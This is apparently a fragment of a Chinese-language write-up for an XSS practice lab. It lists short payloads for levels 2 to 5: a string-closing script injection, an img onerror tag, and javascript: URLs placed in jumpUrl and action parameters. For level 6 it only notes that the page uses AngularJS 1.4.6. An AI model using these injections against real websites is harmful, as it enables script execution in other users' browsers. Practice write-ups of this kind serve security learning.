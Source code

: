 level2: 发现对输入使用了`escape()`函数，基本无法绕过，于是利用`var username='';`语句闭合。`payload`:`';alert(1);//`

![网页代码](./xss_fig/xss-practice-level2.png)

level3: `<img src=x onerror=javascript:alert(1)>`

level4: `level4?jumpUrl=javascript:alert(1)`

level5: `level5?action=javascript:alert(1)&autosubmit=test`

level6: 使用了 `AngularJS` 模版，其版本为 `1.4.6`

![AngularJS版本](./xss_fig/xss-practice-level6.png)

![测试](./xss_fig/xss-practice-level6-test.png)
